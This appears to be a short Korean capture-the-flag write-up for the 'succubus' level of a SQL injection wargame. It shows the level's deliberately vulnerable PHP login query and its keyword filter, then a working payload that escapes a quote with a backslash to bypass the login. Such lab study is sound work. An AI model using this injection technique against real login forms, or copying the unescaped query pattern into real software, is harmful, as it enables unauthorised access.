

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[id])) exit("HeHe"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>

Assassin_zombie와 다른점은 이번엔 preg_match를 써서 싱글쿼터를 우회하였다.
또한 이번엔 \를 필터링 하지 않는다. 이 힌트를 이용한다.
먼저 \으로 고정되어있는 id의 닫는쿼터를 문자열처리하고 pw에서 새로운 조건을 만든다.

https://los.eagle-jump.org/succubus_8~f.php?id=\&pw= or id="a"="a"--%20
query : select id from prob_succubus where id='\' and pw=' or id="a"="a"-- '
query : select id from prob_succubus where id='' and pw=''